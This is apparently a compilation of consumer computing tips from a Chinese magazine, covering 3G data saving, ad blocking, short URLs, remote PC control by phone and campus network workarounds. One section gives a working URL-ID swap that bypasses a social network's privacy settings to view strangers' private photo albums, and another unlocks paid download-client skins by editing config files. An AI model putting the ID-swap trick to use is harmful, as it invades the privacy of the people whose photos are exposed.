既然3G很容易产生高额话费，下面我们就结合常见的网络活动来看看要进行怎样的设置才能省钱。不过，如果大家只是在出差在外的情况下才使用3G，可以先使用 Ghost 的‘分区到分区’组件，把当前系统克隆到另一分区，同时编辑‘c:\boot.ini’（添加类似‘multi(0)disk(0)rdisk(0)partition(2)\WINDOWS=“3G专用系统”/noexecute=optin/fastdetect’语句）。这样以后在使用3G时就可以在多启动菜单选择专用系统，回到公司则继续沿用原来老系统，不影响原来使用。下面操作主要是针对3G专用系统进行节省流量设置。

# 技巧1：网页浏览，只看有用的

现在的网页内容非常丰富，内嵌的Flash视频广告、漂浮的广告图片、动听的背景音乐、弹出的广告窗口等一应俱全。对于仅仅想浏览网页新闻的朋友来说，这些额外的内容浪费了大量的流量，我们可以对浏览器进行设置，屏蔽这些内容。以遨游2为例，启动浏览器后单击‘工具→广告猎手’，勾选‘启用弹出窗口过滤’、‘启用网页内容过滤’、‘启用浮动广告过滤’，再单击‘工具→内容控制’，勾选‘禁止下载图像’、‘禁止显示Flash动画’、‘禁止播放声音’。经过对比测试，经过上述设置后，打开新浪首页至少可以节约300KB的流量。

小提示：对于手机用户，如果使用的是UCWEB浏览器，同样可以进行类似设置。启动浏览器后点击‘菜单→设置→系统设置’，然后将图片质量设置为‘低彩’或‘无图’，勾选‘禁止GIF动画’，去除‘弹出资讯’前的勾选，最后保存设置即可。

小提示：遨游屏蔽图片后，如果有需要显示图片的地方，比如一些网站的登录验证码就是以图片形式给出的，这时可在图片位置右击，选择‘显示图片’即可。

# 技巧2：论坛浏览，节省流量

除了浏览网页，我们经常还要到论坛灌水。现在很多论坛都提供‘纯文本模式浏览’功能，以文本方式查看帖子内容，大大节约流量。对于没有该功能的论坛，我们还可以使用百度快照提供的文本浏览模式：在百度中通过搜索找到帖子页面，然后点链接后面的‘百度快照’，在打开页面中点‘快照版’即可。

# 技巧3：有选择地下载邮件

垃圾邮件的附件是耗费流量的大户。3G上网建议不要使用本地客户端下载邮件。我们可以使用WEB邮箱。这样登录邮箱页面后可以自主查看邮件，只下载确认的有用邮件的附件。对于包时长的用户，则可以设置邮件收发完毕后自动断开连接。比如，OE用户启动收发操作后，勾选‘完成后挂断’选项即可。

```
★火速链接：
设置下载后自动断开关闭程序，可以参考2008年24期的《快车到站就入库》一文。
```

# 技巧4：聊天，流量也省着点

QQ如果不加以设置，它耗费的流量也是相当惊人的。启动QQ2009后单击‘菜单→应用设置→基本设置’，切换到‘好友和聊天→常规’，去除右侧窗格全部勾选，同时关闭QQ自动更新，这样每次启动QQ后就不会浪费流量更新无关紧要的信息了。如果要更为节省流量的QQ，可以到 http://tinyurl.com/ng9jqw 下载迷你QQ。这个QQ精简了所有不必要的组件，聊天对话窗口也不会显示对方QQ秀，而且去除所有广告页面，非常节约流量。

小提示：为了节省QQ流量，还可以在QQ群中设置‘统一设置为阻止一切群消息’，或者在群对话窗口中设置‘屏蔽群内图片’。对于手机QQ用户，则可以在登录窗口设置拒绝接收群消息。

# 技巧5：关闭软件自动升级

很多软件默认都是开启自动升级设置的，这样软件会在后台自动升级并耗费流量。我们可以根据自己的需要关闭自动升级。比如，自己的3G系统大多是用来QQ聊天，我们就可以关闭杀毒软件病毒库的每天升级。

# 一个不漏，堵住其他耗费流量的漏洞

除了上述常见的网络活动会耗费流量，暗藏在系统中的一些设置或者软件也会耗费流量，我们也要手动进行关闭。

1.  关闭系统自动更新。系统补丁通常比较大，如果开启自动更新会耗费非常多的流量。右击桌面‘我的电脑’，选择‘属性’，在打开的窗口切换到‘自动更新’，设置为‘关闭自动更新’。
2.  关闭听歌软件自动下载歌词。很多听歌软件默认设置为自动下载歌词，这样即使是播放本地歌曲也会耗费流量，可以设置禁止自动下载歌词。比如千千静听，打开千千选项设置窗口后切换到‘歌词搜索’，去除右侧窗格‘播放音频文件时自动在线搜索’前的勾选即可。
3.  关闭输入法自动升级。很多输入法（如搜狗）会自动下载细胞词库，我们也要关闭它的自动更新。单击‘开始→运行’，输入‘c:\windows\tasks’，打开任务计划窗口，删除‘SogouImeMgr任务’（搜狗自动更新任务）。接着激活输入法，单击输入法图标上的设置按钮→设置属性，在打开的设置窗口切换到‘高级→升级选项→（勾选）不自动升级’，切换到‘词库设置’，将右侧窗格‘启用细胞词库自动更新’前的勾选去除即可。

# 其他省钱技巧

除了上述设置，我们最后再介绍一些省钱技巧。

```
★制作一个自动断开任务计划
无论是使用包时还是包流量的方式，如果自己有事外出让3G一直连接是很浪费流量的。可以制作一个自动断开连接的任务计划，以电信上网卡为例。
第一步：单击“开始→连接到→显示所有连接”。
第二步：按提示新建一个名为adsl的调制解调器连接（上网卡安装成功后会添加一个新的调制解调器）。以后每次上网就启动这个连接。
第三步：启动任务计划，新建一个每天8:00（自己开始使用电脑时间）执行的任务计划，执行的程序是“c:\stop.bat”。然后打开任务属性窗口切换到“设置”选项，勾选空闲时间下的“仅当计算机空闲时间超过15分钟后，启动任务计划”，这样只要我们离开电脑15分钟就会自动断开连接。
```

★ 将ISP网站费用查询页面作为活动桌面
由于是包流量，我们还要随时登录ISP网站查询自己消耗的流量。这里可以将查询页面放在桌面上，方便自己随时查询。比如，江苏电信3G查询页面是 http://js.ct10000.com/cswlogin.prPreLogin.do。右击桌面选择“属性”，切换到“桌面”，单击“自定义桌面”，把上述页面作为自己的活动桌面即可。

随着移动3G业务铺开，很多地方移动公司还推出基于3G的固话服务。比如北京移动推出的TD无线固话无月租费，市话0.12/分钟，长途0.22元/分钟；用户也可以选择10元套餐，该套餐赠送50分钟主叫市话，并且实行单向收费。

(文/俞木发)

## MM追星热 偶像照片一把抓

MM最近迷上了安室奈美惠，周末休息时，她独自坐在电脑前在图片搜索引擎里搜索下载安室的各种图片。而且MM的要求还很高，非清晰大图不下。我不忍心看她辛苦，于是找到一款“百度图片疯狂下载”(下载地址：http://www.onlinedown.net/soft/75276.htm)帮助她。

下载后解压，双击其中的BaiduPic.exe运行软件。在下方的搜索框中输入关键字“安室奈美惠”，再设置图片质量(有大、中、小、壁纸之分)，最后点击“下载”即可。下载期间，可随时点击“停止”中止下载。

现在，MM只要悠然地喝着饮料，稍等一会，在“百度图片疯狂下载”的目录中将发现新建的图片文件夹，其中就是已经下载好的安室奈美惠的图片了。

### 小提示：
由于安室的图片数量庞大，一时半会下载不完，这时可点击“其他”按钮，选择“高级选项”，勾选里面的“下载完成关机”项，这样在图片下载完成后，软件会进行自动关机操作，以节省电脑资源。

(重庆/陈佳)

## 迅雷要破产，会员功能免费用

迅雷无处不在的广告，时不时弹出的迅雷资讯及影视快讯窗口等，着实令人生厌。迅雷会员可以通过设置去除广告，但是对不愿付费的非迅雷会员，难道就无法可想？其实，非会员也可以对迅雷5进行按需定制，下面就以5.9.1.922版本为例演示。

## 去除两处烦人的广告

假设迅雷安装在“J:\Program Files\Thunder Network\Thunder\”，依次进入“\Profiles\users\***\”文件夹，这里的“***”是迅雷的账号昵称，如果没有的话可以自行注册。使用记事本打开vipsettings.ini文件，找到如下内容：

```
[VIP_SETTING]
THUNDER_MINISITE=0
SKIN_TYPE=1
SKIN_NAME=default
FIRST_LOGIN=0
```

`THUNDER_MINISITE=0`表示关闭迅雷资讯，`SKIN_TYPE=1`表示使用普通皮肤，`SKIN_NAME=default`表示默认使用经典皮肤。如果该文件不存在，可以自行创建。接下来在`FIRST_LOGIN=0`之上添加如下内容：

```
MAIN_AD=0
NEW_TASK_PANEL_AD=0
XUNLEI_TIP=0
WELCOME_PANEL=0
VIP_CFG_SYNCHRO=0
```

`MAIN_AD=0`表示关闭主界面主广告；`NEW_TASK_PANEL_AD=0`表示关闭新建面板中的广告；`XUNLEI_TIP=0`表示关闭影视快讯；`WELCOME_PANEL=0`表示关闭欢迎界面。保存文件后重启迅雷后，会发现主界面中的广告已经没有了，迅雷资讯、影视快讯也不会再跳出。

## 会员皮肤免费使用

依次进入“J:\Program Files\Thunder Network\Thunder\Skin2\”，分别进入`deepblue`(碧海云天会员皮肤)和`red`(火焰之息)子文件夹，打开其中的`package.ini`文件，将其中`vip=1`更改为`vip=0`，保存后退出即可。接下来通过“工具→更换皮肤”即可顺利更换会员皮肤了，迅雷不会再提示开通会员服务信息。

## 丢掉无用的工具箱

迅雷主界面的左下角，提供了系统漏洞修复、装机必备、软件升级、影视娱乐等四款工具箱，鼠标单击即可一键安装。虽然说如此设计大大方便了初级用户，但对于并不需要的用户来说，很容易出现误操作的麻烦事。

我们可以将这几个工具箱从主界面中去除，依次进入“J:\Program Files\Thunder Network\Thunder\Program\”文件夹，使用记事本打开`ThunderUI.xml`文件，将`<GUIToolBoxItems>`和`</GUIToolBoxItems>`之间的部分全部删除，其他内容不动，最后保存文件并重启迅雷即可。

(江苏/王志军)

## IE8直接视频搜索有求“必应”

要想为IE8右上角的搜索栏添加微软新推的Bing(必应)搜索，可在IE8中依次点击“工具→管理加载项→搜索提供程序→查找更多搜索提供程序”，打开加载项资源库网页，切换到“搜索”，点击Bing Search(必应搜索)下的“添加到Internet Explorer”即可。以后，直接在IE搜索框中输入关键词即可完成必应搜索。

不过要想将必应独特的视频搜索功能也添加到IE8的搜索框中，需要进行一些手工操作：

在加载项资源库网页(http://www.ieaddons.com/cn/searchproviders)中，点击页面下方的“创建您自己的搜索提供商”，在新打开的页面中，URL栏里输入通过Bing视频搜索“TEST”关键字获取的网址“http://cn.bing.com/videos/search?q=TEST&FORM=BVFD”，名称栏输入“必应视频搜索”，单击“安装搜索提供商”将弹出提示对话框，点击“添加”。以后要搜索视频时，在IE搜索框中直接输入关键词即可。注意：如果搜索框绑定了多个搜索引擎，可点击其右侧的下拉按钮快捷选择自己需要的搜索引擎。

### 小提示：
大家也可以从http://work.newhua.com/cfan/200914/bing.rar直接下载我制作的注册表文件，双击导入即可添加必应视频搜索。

(Q.y)

## 超长网址惹人厌，网上流行“超短裙”

与网友分享网上资源时常会碰到一些超长的网址，既不方便记忆，看起来也不美观。其实要将长网址变短是件很简单的事。

## 可以自己命名的短网址

TinyURL (http://tinyurl.com/)算得上短网址先驱了，简单粘贴长网址，再点击“Make TinyURL”，即可生成类似http://tinyurl.com/bv5tgg的短网址。新型的短网址服务则还有自命名功能，如http://bit.ly，点击Optional Custom Name (自定义名称选项)，在显示的文本框中输入自定义的名称(比如输入：fly2spring)，最后点击Shorten (缩短)即可生成类似http://bit.ly/fly2spring的网址。

## 短网址保护网络隐私

想把一些网络资源共享给某几个特定的好友，又担心其他人看到，怎么办？我们可以生成几个带密码的短网址。

打开http://shorl.com/，粘贴网址后再单击Shorlify按钮，在生成类似http://shorl.com/grejotygokige的网址后，还会显示随机产生的一个密码。其他人打开此短网址，必须正确输入此密码才能转到目标网页上。

## 青出于蓝胜于蓝——中文短网址不甘示弱

如今，不少中文网站也开始提供短网址服务，而且在功能上还有所发展。比如ddurl(http://ddurl.cn/)。它的特色之一就是“长话短链”，在上面的文本框中输入文字，再点击“变成链接”即可将这段话变成网址，并且还可以设定访问密码、保存期限等。

除了文字，ddurl还可以将程序代码、链接(即长网址)、图片、网页等，都变成短网址，大大方便了我们临时储存信息。

(文/流言)

## 要的就是干货，论坛帖子脱水有术

有问题，找论坛！比如用电脑时遇到难题，就可以到专业计算机论坛(比如CFan论坛：http://bbs.cfan.com.cn)寻找答案，会有许多网友热心给予解答。但是论坛里的“水帖”(即没什么有用内容的帖子)也很多，常常把有用的内容给淹没了。今天就教给大家一些“脱水”术，助你快速过滤掉论坛里的无用水分。

论坛助理(Spindrier)小档案
软件大小：14.3MB
软件版本：3.0
软件授权：免费
运行环境：Windows XP/2000/2003/Vista/7
下载地址：http://www.onlinedown.net/soft/77312.htm

论坛助理又名论坛脱水机，它就是我们今天要用到的主要秘密武器。下载安装后，它会自动嵌入IE浏览器中。

## 实战1：只看有用的，广告水帖都不见

假设你想制作一个能显IP地址的个性签名，可打开浏览http://bbs.cfan.com.cn/thread-896569-1-20.html，这里有不少参考信息。如果嫌此帖中有太多的广告及无用的水帖，可在页面空白处右击，选择“添加到论坛助理(Spindrier)脱水”，将弹出脱水任务对话框。相应的项目已自动填写，直接单击“确定”即可。脱水完成后将弹出窗口，可以看到，广告及水帖都没有了，非常简洁。

## 实战2：好看的网文打包电子书

好看的网文，通过论坛助理可以轻松地打包成PDF电子书，保存到本机以便随时阅读。首先按上面的方法收藏主题帖，然后启动论坛助理主程序，点击要打包的主题帖，再单击菜单“文件→导出”，设定好文件名保存，一本PDF电子书就制作完成了。

### 小提示：
不过论坛助理现在还不支持起点那样的普通网页式的网文脱水。它主要以论坛为主，包括：天涯、搜狐、猫扑、中华网、腾讯Q吧、泡泡、新浪、网易等知名的社区和论坛。

(文/一页)

## 手机“放飞”电脑，千里之隔一线牵

在生活中我们经常要通过远程控制来操纵远方的电脑，一般都是借助电脑+远程控制软件来完成的。但如果身边没有电脑该怎么办？其实借助随身携带的手机，我们一样可以远程控制电脑。由于每个人使用的手机档次不同，下面分别介绍适合不同手机的遥控方法。

## 穷人的手机——能发短信就可以控制电脑

也许很多朋友还在使用非常低档的手机，这种手机无法上网也无法安装任何软件，不过收发短信的功能还是有的。借助免费的“执行者”，这种手机也可以遥控电脑。

## 实战：千里之外手机远程关机

酷暑季节有些地方会实行定时停电的节电策略，如果此时你家中的电脑还在下载软件（总之是开着机的），我们又在外面办事无法回家，那么现在就可以掏出你的手机来个远程关机。

- 第一步：登录http://jwai.de/，注册一个叽歪用户（如OFANJiwai），注册成功后单击“马上开始叽歪”，在打开的页面中点击上方的“CFANJiwai的设置”，再在设置页面中单击右侧窗格的“绑定设置”，切换到“手机”选项卡，按提示使用自己的手机号绑定叽歪（把验证码发送到1066822888即可）。
- 第二步：返回“我的叽歪”页面，单击左下角RSS标记后的“订阅CFANJiwai”，在打开的页面中记录下RSS地址，类似http://api.jwai.de/statuses/user_timeline/210065.rss，这就是我们通过手机更新叽歪的RSS地址。
- 第三步：下载解压执行者（下载地址：http://work.newhua.com/cfan/200914/Release.rar），双击其中的ControlServer.exe运行软件（注意：系统中要预先安装微软.NET Framework 2.0或更高版本），然后右击系统托盘中的执行者图标，选择“设置→执行者设置”，在RSS地址处输入上述获得的地址，刷新RSS间隔设置为3000毫秒（等于3秒，可自由设置），其他设置取默认值。点击“保存”后再重启软件即可。
- 第四步：如果自己在外面需要远程关闭家中的计算机，首先确保家中计算机是联网并启动了执行者的ControlServer.exe组件（可以将其设置为自启动）。现在只要用手机编辑短信内容“执行命令：关机”（不含外双引号，“：”为全角冒号，关机前没有空格，命令格式一定要正确），发送到1066822888（短信会收费），过一会儿家中的电脑就会自动关机了。

注意：当要正常使用电脑时，千万别忘了登录你的叽歪账户，并将之前所发的关机的信息删掉，否则执行者总是会自动检测叽歪上的信息，并自动执行关机操作。

### 小提示：
★通过AutoHotkey还可以录制很多操作，比如可以先建立一个批处理`a.bat`放置在`c:\`，只要录制微软徽标键+R+`C:\a.bat`即可远程执行批处理。而在`a.bat`文件中，你可以随意设置操作。

## 大众手机——能上网就能控制电脑

由于叽歪支持手机访问，包月上网用户可以直接在手机上登录`m.jwai.de`发布上述消息，同样可以达到关机效果。还可以通过MSN等即时通信软件发送消息关机。

近几年的手机大多支持JAVA扩展，我们可以通过下载JAVA软件扩展手机功能。如果你的手机可以上网（当然前提要申请包月上网），并安装了手机QQ软件，借助手机QQ发送消息也可以遥控电脑。

## 实战：远程关闭家中网游并关机

放暑假了，总是担心家中孩子一直沉迷于网络游戏。还在公司加班，打电话叫孩子关机他也不听？没关系，掏出手机把家中的游戏关了！

```
Taskkill /im aa.exe /f
shutdown -s -t -c "儿子，不要再玩游戏了"
```

- 第一步：启动记事本建立一个批处理`a.bat`，放置在`c:\`，内容如下（假设`aa.exe`为游戏主程序）：
- 第二步：准备两个QQ账号A和B互加为好友，假设家中电脑为A，在其好友列表中右键B，选择“修改备注名称”将其设置为“手机B”。接着单击“菜单→设置→系统设置→基本设置”，勾选“窗口设置”下的“自动弹出消息”项，并去除对“运行全屏程序时不自动弹出通知”前的勾选。
- 第三步：启动手机QQ（无法安装手机QQ的用户则登录http://3g.qq.com），然后向电脑QQ发送一条消息。此时在电脑上就会弹出“与手机B 交谈中”的对话框。运行AutoHotkey（下载地址：http://www.onlinedown.net/soft/39219.htm）中的AutoScriptWriter组件，把程序窗口移到桌面左上角。接着单击AutoScriptWriter窗口的Arecord（记录）开始录制：先用鼠标单击QQ对话框窗口的“关闭”按钮，接着依次按下微软徽标键，R键，`C:\a.bat`，回车键（也就是执行脚本的键盘操作）。完成上述操作后按下STOP（停止）中止录制，返回AutoScriptWriter窗口即可看到上述录制的整个脚本代码。注意：录制脚本前，尽可能将不相关的程序窗口关闭，输入法调整为英文状态。
- 第四步：单击AutoHotkey窗口的Save（保存）按钮，将录制的脚本保存为`aa.ahk`，放置在“C:\Documents and Settings\CFAN\[开始]菜单\程序\启动”（CFAN为当前系统账户）。这样每次开机都会运行上述脚本。
- 第五步：现在如果发现孩子还在玩网络游戏，只要家中电脑开启QQ（可以设置开机自动登录），任何时候只要用手机QQ发送一条消息到电脑QQ上即可自动关闭游戏并关机了。

### 小提示：
★AutoHotkey中文论坛提供大量实用脚本下载，有兴趣的朋友可以去逛逛：http://forum.ahkbb/

## 智能一族——用手机软件远程遥控

很多人用上了智能手机，这类手机使用的是智能操作系统。我们可以像电脑一样，在手机上安装远程控制软件，然后通过GPRS网络（或者3G）就可以控制家中的电脑了。

## 实战：远程提取家中文档

很多马大哈朋友，经常出门在外才想起工作的文档忘在家中。此时借助智能手机上的远程控制软件即可连接到家中电脑获取文档。下面以多普达S1为例。

注意：下面测试的远程控制均是在中国移动CMNET情况下操作。操作之前请确保手机已经开通GPRS的CMNET套餐。由于连接到PC需要获取电脑IP地址，对于ADSL单机用户，为了确保连接方便，请使用花生壳动态域名服务。

- 第一步：在家中电脑右击桌面“我的电脑”选择“属性”，在打开的属性窗口中切换到“远程”选项卡，勾选“远程桌面”下的“允许用户远程连接到此计算机”，然后点击“选择远程用户”，按提示选择一个连接到本机的用户账户，账户一定要设置访问密码。
- 第二步：WM6.1已经集成远程桌面组件，自己刷机的用户则可以从http://work.newhua.com/cfan/200914/wpc.rar下载所需的软件（适用于WM5、WM6用户），下载解压后直接把文件夹拷入存储卡，导入其中注册表内容就可以运行`wpctsc.exe`了。
- 第三步：启动手机GPRS连接，然后启动远程桌面组件，按提示输入家中电脑IP地址、连接账户名和密码，单击“连接”（具体使用和XP自带远程桌面类似，为了节省资源要把显示颜色数改成256色）。
- 第四步：成功连接后就可以打开家中电脑，只要打开资源管理器复制需要的文件到手机上即可。

### 小提示：
★S60用户可以试用一下手机VPN（远程控制PC工具）SymVPN，下载地址：http://work.newhua.com/cfan/200914/SymVPNv10052_S60v3_Unsigned.rar。
★如果家中电脑是路由共享的机器，那么可以进入路由器设置界面设定转发规则。比如，家中电脑IP是192.168.1.100。进入路由器设置界面后，点击左侧的“转发规则→虚拟服务器”，在服务端口上填上3389，IP地址填上192.168.1.100即可。

(天津公安局和平分局/盛利强)

## 畅所欲言：谁是最好的网络地盘

通过博客我们可以记录下工作、学习、生活和娱乐的点滴体会，在网上建立一个属于自己的个人地盘。建设好这个地盘的前提是：选择一款或多款适合自己的博客，并且掌握相关的操作技巧，这样才能彻底玩转博客，让个人地盘更精彩。

## 本机撰写发布博客

在线写博既费事又不安全，因此不少博客网站提供有自己的离线写博工具。不过大部分人会有多个博客，单一的工具无法满足需求，所以这里推荐给大家一款不错的离线写博工具——菊子曰（下载地址：http://work.newhua.com/cfan/200914/JuziyueAlpha4.rar）。

下载安装后，第一次运行需要设置数据库名称（随意），按向导提示创建数据库后进入软件主界面。它的界面有点类似邮件客户端，点击“新建”打开撰写窗口，像在Word中一样编写博文。完成后切换到“博客”选项卡，点击“发布”，按提示填写你的博客地址及用户名、密码等信息，发布即可。

菊子曰支持新浪、网易、搜狐、百度、叽歪、饭否、Twitter、Flickr等国内外上百家流行的博客、微博客、相册等，而且所有发表的博文皆在本机有保存。

## 快速搞定备份

博客写久了，最担心啥？博客服务商玩不起了，要关闭博客服务。那上面的文章、图片等等就全完了。此时如果有一款工具可以将博客上的内容全部备份到本机上，无疑是最明智、最快捷的选择。BlogBak就是这样一款工具，它可以直接备份多款不同的博客。

BlogBak需要微软.NET Framework 2.0或更高版本的支持，请预先安装好。然后再安装BlogBak（http://www.onlinedown.net/soft/52120.htm）。打开软件后，在左上角选择博客服务商（如：网易），然后单击“去登录”按钮，再在右侧输入博客的用户名和密码，登录自己的博客。登录成功后，单击“开始备份”，备份结束后会在下方显示备份文件的保存位置。

### 小提示：
博客如何“搬家”？不少博客还提供了“搬家”工具，支持将其博客内容整体复制过来。有需要的朋友可参阅此《国内博客搬家工具大全》，网址：http://blogunion.org/blogging-tools/bsp-ban jia.html。

## “货”比三家，常用博客比一比

目前提供博客服务的网站有很多，面对众多“货物”，我们该如何选择呢？还是老方法，货比三家不吃亏。

(文/江苏 汤宝秀)

## 不注册不登录，随手传图好去处

平时在论坛或在留言板发帖留言时，时不时要几张贴图。而一般贴图都需要先去注册相册或者空间，将图片上传后再贴在论坛或留言板上，这些是贴图的正道。但是有时只是想临时传一些图片贴一下，还要注册的话就太麻烦了。下面，就给大家推荐一些不用注册不用登录就可以上传图片的好去处。

快捷贴图：http://tu.6.cn/
推荐：简单省事者
点击“浏览”选择欲上传图片后，再点击“上传”即可，最多可同时上传5张图片。上传完毕，点击图片地址栏即可自动复制图片地址。

图吧：http://www.jpg.name/
推荐：一次上传多图者

随意贴：http://www.freep.cn/
推荐：论坛贴图者
点击“浏览”，选择图片，再点击“上传图片”即可。点击“一次上传多张”可同时上传5张图片。上传完毕，点击相应按钮可复制图片地址、UBB代码及HTML代码。

tinypic：http://www.tinypic.com/
推荐：想要压缩上传图片的大小以及上传音视频者
这里不仅可以上传图片，同时也可以上传音视频。点击“浏览”选择图片或者音视频。另外还可以在resize（重置大小）中改变上传图片的尺寸（如不需转换尺寸，使用默认值即可）。如果想要将上传图片发送到邮箱，可勾选Send it via email（通过邮箱发送）。上传成功后，点击View Full Size Image（查看完整大小的图像）即可获取图片地址了。

ImageDash：http://www.imagedash.com/
推荐：玩国外论坛者
点击“上传图片”，选择图片上传即可，即刻在页面中显示出上传图片的地址，直接复制即可。

(重庆/陈佳)

## 资源更新，电驴报信

很多“驴友”收藏了VeryCD网站上的很多精品资源，每周美剧的更新也是美剧爱好者的激动时刻。那么当我们收藏的资源有更新时，如何才能及时获取通知呢？对于eMule注册用户来说，软件内置了收藏资源的消息提醒功能，只要打开软件即可收到最近消息提醒通知。

不过因为公司一般禁用P2P下载，那么在没安装eMule的电脑上如何及时获取更新信息？幸运的是，最近VeryCD提供了邮件提醒的功能，只要注册用户在修改资料时将“收藏资源更新提醒”功能开启，验证邮箱成功后就可以上网查看更新了。如果注册时使用的是QQ邮箱，一旦收到VeryCD的资源更新邮件，QQ会即时弹出提示的。

（浙江/杜永军）

## 校内美女偷偷看

校内网（http://www.xiaonei.com）是国内非常流行的一个SNS交友社区，大学生几乎人手一个校内账号。同学们平常除了用校内网来联系朋友，另外最常做的事情就是看自己学校的校花、校草的照片。但是校内添加了隐私设置，如果没有加她（他）为好友，则只能看他们的头像。CFan杂志上曾介绍过跳过校内隐私设置的巧妙方法，不过此方法已被校内网封杀了，看来只能另辟蹊径：借助手机校内来突破。

首先在电脑上访问http://m.xiaonei.com（此为手机校内的网址），用自己的账号登录后，搜索自己想要找的人。一般情况下，网页会显示“你必须加她为好友才能查看她的相册”，不用着急，查看地址栏里的一长串字符。例如：http://m.xiaonei.com/profile.do?id=22117????&sid=8b28e09ccbd9ce405be234fad56b2d5b3&ea0gha，其中“id=”后边的九位数字正是她的校内ID号，将它复制下来。

接着打开自己的校内主页，里边有“我的相册”一项，点击进入。查看地址栏，里边为如下格式的一组字符：http://m.xiaonei.com/wmyalbum.do?id=24444???&sid=9a29e09cabd9ce505ee234fad56b2d5a3&2dw3e7，其中“id=”后面即是你自己的ID号。没错，聪明的你一定想到了，用她的ID号换掉你自己的ID号，然后按下回车键，即可成功进入她的相册了。稍可惜的是，此方法无法看到她的“分享”和“日志”，不过能看看校花的靓照，感觉已经很不错了。

（甘肃/冯杰）

## Google不着调，本机DNS拉回头

由于Google大部分服务的服务器在国外，常因为不同的网络原因导致不能访问。怎么办？莫急，本刊上期（用“暴风”事件给你上一节网络知识课）已经暗含了两种解决方案：1.更换DNS（OpenDNS）；2.设置本地的HOST文件。

更换DNS有点麻烦。其实Google有很多IP地址，当它不能正常访问时，换一个IP地址尝试也许能柳暗花明。为了避免点击Google下级链接时又转回默认的那个不通的IP，可修改本地的HOST文件以固化解析地址。手工修改HOST文件既麻烦又易错，可借助HostsEdit（http://work.newhua.com/cfan/200914/HostsEdit.rar）来完成。软件运行后，在URL里填写网址域名（如：www.google.com），IP里填写对应的IP地址（如：64.233.189.147），再点击右下角的“增加”即可（Vista，需右击HostsEdit.exe，再选择“以管理员身份运行”，否则无法保存结果）。

小提示：
在URL框中输入任意域名，点击“解析”即可得出该域名的真实IP地址。另外，将搜集的域名信息，以每行一个IP地址+空格+域名的形式（如：64.233.189.147 www.google.com）保存为TXT文本文件，在窗口中点击“导入”可批量导入。更多Google相关的IP列表可参考：http://bbs.cfan.com.cn/viewthread.php?tid=934047。

## 一不留神，你被鄙视了

某天，小编Alpha上班后刚刚打开QQ，就“听”到编辑部QQ群里一片哗然，新来的硬编鸭鸭更是对着他挤眉弄眼。怎么回事？他看了看QQ群右侧窗格，不禁尴尬万分。这么恶心的评价，到底是谁干的？

查一查，谁给了你恶评
Alpha点击QQ2009面板上自己的头像，打开我的资料窗口，再点击“丰富资料→好友印象”，将光标指向恶评，下面即时显示出贴条者的信息，原来就是那可恶的鸭鸭干的。Alpha赶紧点击恶评右上角的X按钮，将这令人尴尬的评价删除掉了。

以牙还牙，回评挑衅
Alpha越想越气，在QQ好友里找出鸭鸭，右击，选择“查看资料→好友印象”，再点击右上角“我要对他进行描述”，在新窗口中输入他对鸭鸭的恶评，点击“提交”，总算报了一箭之仇（小编注：本例“秃子晚上不点灯”，是笑话鸭鸭刚刚理了一个光头）。

小提示：
★怎么才能统一查看其他好友的所有评价呢？通过Web QQ可以更方便地查看管理评价。打开http://web.qq.com，用自己的QQ号登录后，在打开的页面中就可以看到所有好友的评价了，点击后面的“我来评价”可以即时加入自己的评价。

（文/流言）

## 窃不是偷，QQ空间日志转载没商量

为了丰富自己的QQ空间，在别人博客上看到好东西的时候，免不了就想“顺手牵羊”转到自己的空间。下面就是我的一些转载心得，与同好共享。

方法一：普通QQ日志普通转载
对于普通的QQ日志，打开后点击上方“转载到我空间”按钮，再点击提示框中的“是”按钮，就可以将日志转到你的QQ空间了，同时会给该好友发出转载通知。

方法二：别家日志照转不误
首先下载安装QQ工具栏（http://toolbar.soso.com），完成后启动IE，同时登录QQ，让两者挂钩。以后在浏览其他博客日志时，在网页空白处右击，选择“转载到QQ空间”，将弹出一键转载日志对话框，可以做些简单编辑；最后单击“转载到我的空间”即可。

方法三：不让转非转的暴力转载
QQ日志大致可分为：普通日志（仅仅是文字）、视频分享（日志里面贴有视频）、小游戏共享（可以在日志中玩游戏）、相册分享（日志中带有照片）。下面分别介绍转载的方法。

普通日志：这个简单，只要复制文字再到自己的空间去粘贴就可以了。
相册日志：先下载个QQ相册批量下载器（下载地址：http://www.onlinedown.net/soft/78122.htm）之类的工具，将相册下载到本机，然后再转贴到自己的QQ日志中即可。
视频日志和小游戏日志：这个可借助360浏览器完成（暂以360浏览器为例，其实这个方法绝大多数的高级浏览器都可以实现）。登录到QQ好友的空间，找到需要转载的日志并打开。先认准日志上是什么资源（视频还是Flash游戏），接着在360浏览器上点击“工具→网页元素查看器”，接着点击“页面元素列表→视频/音频文件（或Flash动画）”，此时即可看到视频（或者Flash动画）的外链地址了。点击“复制链接”，再转贴到自己的QQ日志中即可大功告成。

好了，通过上面的方法，你就可以横行于各个QQ空间（及其他博客）之间，大肆“转载”精彩的文章了。

（广州/黄锴文）

## 谁说校园网不入电信？突破校园网

文献献给那些还在校园网中苦苦挣扎着的兄弟们，以及即将跨入大学的学弟学妹们。——题记

对大学生来说，校园网和电信网本不是两难选择，谁会愿意花高价上电信网而舍弃低廉的校园网？但实际上许多同学都会犹豫，以我们学校为例，校园网是360元一年，而1.5M的电信网则是1000元一年，两者的资费差距实在太大。但是大家对校园网的评价普遍不怎么好，网页屏蔽、无法玩游戏、下载资源少等。那么，如何才能鱼与熊掌兼得？有兴趣的同学不妨和小曹一起走一趟，看看他是如何用着校园网又能享受到电信网的待遇。

### 突破网页屏蔽

小曹想在淘宝网上买点东西，可是当拍完物品准备付款时发现付款网页打不开，原来校园网屏蔽了淘宝的付款网页。设置IE代理太麻烦，最后小曹借助提供有免费教育网访问公网代理的搜狗浏览器（下载地址：http://ie.sogou.com）解决了此问题。

运行搜狗浏览器后，注意右下角的图标。当第一个火箭图标呈灰色未激活状态时，需要手工点击激活它。激活全网加速后，小曹再试着打开原来的付款网页，没过多久熟悉的支付宝界面就又显示在浏览器中了。

### 突破屏蔽玩游戏

小曹平时不怎么玩网络游戏，但是一到周末还是会抽出点时间去放松放松。可惜校园网无法登录各大网络游戏的服务器，这下可郁闷坏了小曹。经过反复折腾小曹终于找到了一款不错的软件能够突破这一限制，那就是使用flashwind（下载地址：http://d1.flashwind.com/FlashWind3.5.rar）。

下载安装后，运行软件，将会出现登录界面，没有账户的首先要点击“用户注册”注册一个。登录后，进入软件主界面，在游戏名称中选择自己需要登录的游戏（例如：穿越火线），再点击服务器信息显示找到相应延迟较小的服务器，双击该服务器即可设置该服务器为接入/落地服务器。设置完毕，后点击下方的“接入”连接服务器，成功后会显示“接入成功，请运行程序”。

